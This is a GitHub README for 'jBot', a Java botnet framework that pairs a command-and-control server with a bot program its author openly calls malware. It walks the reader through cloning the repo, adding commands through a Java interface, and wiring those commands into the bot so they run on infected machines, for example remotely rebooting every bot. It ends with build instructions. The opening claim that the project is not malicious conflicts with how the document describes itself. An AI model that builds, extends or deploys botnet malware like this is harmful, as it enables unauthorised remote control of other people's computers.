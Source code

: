 *is jBot Malicious? No. jBot is an implementation of a Botnet in Java that was designed for developers to create their own botnets, as botnets are the future of large-scale computing, botnets are used widely across the world for many different things, and are used by some of your favorite companies.*
# jBot
jBot is the future of Java Botnet Development, the developed software allows java developers to create their own botnet, by adding commands, and more functionality to the initial botnet, as it was developed with ease of development in mind for less 'inclined' developers (No Offence).

## Get Started >
Begin by cloning/downloading this GitHub Repository, this will give you access to the Botnet Malware (Bot), and the Botnet Command and Control (CNC) Servers/Software.

    $ git clone https://github.com/Aaron-Akhtar/jBot.git

You can then process the projects into your code editor, and begin adding some custom commands and functionality to the botnet, as seen below.

### Adding Custom Commands and Functionality >
jBot uses something called Reflections, this allows the (CNC) software to dynamically find commands you've added to the project, so there is literally one 1 file/class that needs to be made and modified for you to add a custom command to the initial CNC Software, however you will need to add functionality for the actual bots (If your command is sending data to the bots), because, if you don't, the bots won't know what to do.

Start by Creating a Class & Implementing the interface [JBotCommand.java](https://github.com/Aaron-Akhtar/jBot/blob/main/jBot%20-%20Command%20and%20Control/src/main/java/me/aaronakhtar/jbot/command_manager/JBotCommand.java). 
**MAKE SURE TO LOCATE YOUR NEW COMMAND CLASS INTO THE FOLLOWING PROJECT PACKAGE/DIRECTORY:** `me.aaronakhtar.jbot.command_manager.commands`
Example Command Class:

```java
package me.aaronakhtar.jbot.command_manager.commands;  
  
import me.aaronakhtar.jbot.command_manager.JBotCommand;  
import me.aaronakhtar.jbot.threads.handlers.ClientHandler;  
  
import java.io.BufferedReader;  
import java.io.BufferedWriter;  
  
public class RandomCommand implements JBotCommand {  
  
    @Override  
  public String getCommand() {  
        return "myCommand";  
  }  
  
    @Override  
  public String getDescription() {  
        return "use this command to send a virtual slap to all bots.";  
  }  
  
    @Override  
  public boolean isAdminCommand() {  
        return false;  
  }  
  
    @Override  
  public void doAction(String[] args, ClientHandler client, BufferedWriter out, BufferedReader in) throws Exception {  
        // do something here when CNC-CLIENT executes command.  
  }  
}
```
If your command has **NO BOT-FUNCTIONALITY**, then, congrats, you've made your first CNC Command.
Whenever a CNC-CLIENT executes your command, whatever is in `doAction(...)` will be executed.

### Integrating your new command with your Bot (Malware) >
Because of the ease-of-usage concept I want to go by, I decided to make the Malware simple, and not over complicated at all, in order to integrate your new command, simply **make sure you add the following code into your Command Class `doAction(...)` function in the CNC Software:  `Utilities.executeCommandToNetwork("command here");`**

In your Malware [Main.java](https://github.com/Aaron-Akhtar/jBot/blob/main/jBot%20-%20Malware%20Bot/src/main/java/me/aaronakhtar/jbot/Main.java) class, simply modify the switch-statement to integrate your new command, and provide some functionality, below is an example implementation:
```java
switch (commandArgs[0].toLowerCase(Locale.ROOT)){  
    // example  
  case "ping":{  
     System.out.println("pong");  
     break;  
  }  
  
  case "myCommand":{  
     Runtime.getRuntime().exec("reboot");  
     break;  
  }  
}
```
As you can see, we are executing the `reboot` command in all the bots on our network once receiving the new command we just added to our CNC.


## Compiling the Software >
Once you've modified your version of jBot, you can compile it with Git Bash using the following commands:
*Prerequisites*:
```
	- Apache Maven (Installation Tutorial > https://www.youtube.com/watch?v=km3tLti4TCM)
```
*Step 1*: Go into your CNC Project Folder (The folder with `pom.xml` in it) and execute the following command:
```
$ mvn clean package
```
or
```
mvn package
```
*Step 2*: Go into your Malware (Bot) Project Folder (The folder with `pom.xml` in it) and execute the following command:
```
$ mvn clean package
```
or
```
mvn package
```

**Ladies and Gentlemen**, that is how you create a damn Java Botnet.

# Credits:
Me.
https://twitter.com/D3vAaron
